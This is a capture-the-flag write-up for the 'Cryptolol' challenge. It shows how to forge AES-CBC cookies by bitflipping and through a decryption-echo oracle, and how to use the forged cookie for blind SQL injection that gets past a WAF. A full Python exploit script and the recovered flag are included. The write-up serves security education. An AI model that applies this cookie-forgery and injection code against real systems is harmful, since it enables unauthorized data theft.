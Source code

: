 # Cryptolol (Crypto/Web)

In the task we get access to a webpage which only prints out:

![](cryptolol.png)

There is pretty much nothing else there.
But we get an interesting base64 encoded cookie from the server called `USERNAME`.
Playing around with this cookie we figure out it's AES-CBC encrypted username.
We can do some bitflipping of the first bytes and it changes corresponding bytes in next 16 byte block.
We also get a full echo on the decryption results from the server.

Initially we thought it might simply be padding oracle of some sort, but we easily checked that there is no PKCS padding at all.
We removed IV block, so decryption would show only the second block, and then by bitflipping we deduced that the whole thing is padded with spaces.
We also verified that ciphertext we have contains simply what was printed out - `Smelly Tooth Cromwel`.

Short reminder for those who are not familiar with CBC mode: each ciphertext block is decrypted first with AES and then XORed with previous block. 
First block is XORed with so called IV, which is appended as the first block of ciphertext.
The trick is that we can change IV however we want, and it will result in changing the plaintext after decryption.
If we XOR k-th byte of IV with value `x` then k-th byte of first plaintext block will also get XORed with `x`.
Using this technique we can force any decryption we want for a single block.

By playing around with a single block we noticed that there is some kind of WAF on the server, because changing the plaintext contents to words like `union` or `sleep` was giving a special error that the contents were suspicious.

We tried to get some kind of SQL Injection, but we could get this to work with only one block.
We decided we need more characters in the query.

Fortuanately server gave us full decryption results, and this allows us to forge a ciphertext for any plaintext we want.
We can do this by:

1. We send bytes `\x00` in as many blocks as we need for the payload we want to send.
2. We read how server decrypted this.
3. We take last block decryption and XOR it with last block of plaintext we want. The result is what the previous block has to be, in order for us to get this result.
4. We set previous block for the XOR result value.
5. We send the current ciphertext again, but without the last block.
6. We repeat steps 2-5 for all blocks until last XOR becomes the IV.

This way we get a ciphertext which will get decrypted to plaintext we want.

There were some issues with the injection payload here:

1. There was WAF which removed some useful instructions
2. It took us a while to figure out the schema and then to notice that for user `Smelly Tooth Cromwel` the `flag` field is null, and we need to find another user with the real flag.
3. We could only get a blind injection, and the query was very particular, because if the result set had more/less than 1 record, it would fail with error, so we used injection in the form of `Smelly Tooth Cromwel' or CONDITION`, and if the condition was true then result set would have more records and there would be error, and otherwise no error would appear.
4. It was pretty slow, even with binary search.
5. Substring-like functions were blacklisted so eventually we casted flag to binary and run regex matching on this:

```python
import base64
import re
from ast import literal_eval
from math import ceil
import requests
from bs4 import BeautifulSoup
from crypto_commons.generic import chunk, xor_string


def pad(plaintext):
    blocks = int(ceil((float(len(plaintext)) / 16)))
    return plaintext.ljust(blocks * 16, ' ')


def send_payload(payload):
    return requests.get('http://cryptolol.challs.malice.fr', cookies={'USERNAME': base64.b64encode(payload)})


def get_error_message(content):
    soup = BeautifulSoup(content, 'html.parser')
    message = soup.select_one('.error-message')
    if message:
        if 'Suspicious' in message.text:
            raise Exception('filter')

        return re.findall('''the user b(["'].*['"]) has been''', message.text)[0]
    elif 'Caribbean pirate' in soup.text:
        return True


def form_full_payload(plaintext):
    blocks = len(pad(plaintext)) / 16
    chunks = chunk(pad(plaintext), 16)
    payload = ("\0" * 16) * blocks
    final_blocks = ["\0" * 16]
    for i in range(blocks):
        response = send_payload(payload)
        decrypted = literal_eval(get_error_message(response.content))
        last_block = decrypted[-16:]
        new_block = xor_string(chunks[-i], last_block)
        final_blocks.append(new_block)
        payload = '\x00' * 16 * (blocks - 1) + new_block
    return "".join(final_blocks[::-1])


def convert(x):
    return "\\\\x" + (hex(x)[2:].zfill(2))


def guess_single(prefix, single):
    guess = convert(single)
    text = '''
    Smelly Tooth Cromwel' or flag is not null and (cast(flag as binary) regexp '^.{{{prefix_len}}}{guess}') #
    '''.strip().format(prefix_len=len(prefix), guess=guess)
    payload = form_full_payload(' ' * 16 + text)
    response = send_payload(payload)
    return get_error_message(response.content) is None


def guess_letter(prefix, low, high):
    mid = (low + high) / 2
    if low == high:
        return chr(low)
    if guess_single(prefix, mid):
        return chr(mid)
    print(low, high)
    guess = "[%s-%s]" % (convert(low), convert(mid))
    text = '''
    Smelly Tooth Cromwel' or flag is not null and (cast(flag as binary) regexp '^.{{{prefix_len}}}{guess}') #
    '''.strip().format(prefix_len=len(prefix), guess=guess)
    print(text)
    payload = form_full_payload(' ' * 16 + text)
    response = send_payload(payload)
    if get_error_message(response.content) is None:
        return guess_letter(prefix, low, mid - 1)
    else:
        return guess_letter(prefix, mid + 1, high)

		
def main():
    flag = ""
    while True:
        flag += (guess_letter(flag, 0, 129))
        print("Flag progress:", flag)


main()
```

After some (very long...) time we get `NDH{L!st3n-to_me,MOrty.I_know..that~new$5ituat1oNs*caN--be__int|miDAting...}`
